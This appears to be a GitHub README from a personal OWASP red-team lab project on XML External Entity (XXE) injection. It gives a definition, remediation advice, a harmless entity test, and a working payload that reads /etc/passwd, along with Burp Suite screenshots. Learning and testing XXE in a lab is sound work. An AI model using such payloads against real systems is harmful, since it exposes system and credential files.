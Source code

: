 # XML External Entity (XXE)

## Sensitive Data Exposure
<p>Is a vulnerability that abuses features of XML parsers/data. It often allows an attacker to interact with any backend or external systems that the application itself can access and can allow the attacker to read the file on that system.</p>

### Remediation:
<p>The best way to prevent this vulnerability is to disable XML external entities, use a different parser or library that is not vulnerable to XXE attacks, and validate and sanitize all user input.</p>

## XML External Entity (XXE) example:

### XXE Payload:

<p>Upload the following payload</p>

``` xml
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```

<p>We can see that the payload was able to successfully display name falcon feast</p>
<img src="https://github.com/Jay-Jay23/OWASP_Top_10/blob/main/RedTeam%20project/images/XXE.png" alt="XML">

<p>Using Burp Suite to see the request that was sent with the URL encoded payload</p>
<img src="https://github.com/Jay-Jay23/OWASP_Top_10/blob/main/RedTeam%20project/images/XXE1.png" alt="XML">

<p> Upload the following payload, to try and read the  /etc/passwd</p>

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

<p> Or push the captured request to repeater, to try and read the /etc/passwd</p>
<img src="https://github.com/Jay-Jay23/OWASP_Top_10/blob/main/RedTeam%20project/images/XXE3.png" alt="XML">

